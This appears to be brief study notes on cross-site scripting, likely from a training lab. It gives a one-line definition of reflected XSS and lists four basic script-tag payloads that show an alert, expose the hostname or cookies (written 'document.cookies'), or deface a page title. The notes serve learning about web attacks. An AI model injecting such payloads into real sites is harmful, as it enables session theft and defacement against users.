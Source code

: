 # Cross-site Scripting

http://www.xss-payloads.com/



## Reflected XSS
only affects the person making the web request.





<script>alert(window.location.hostname)</script>
<script>alert(“Hello World”)</script>

<script>alert(document.cookies)</script>
<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>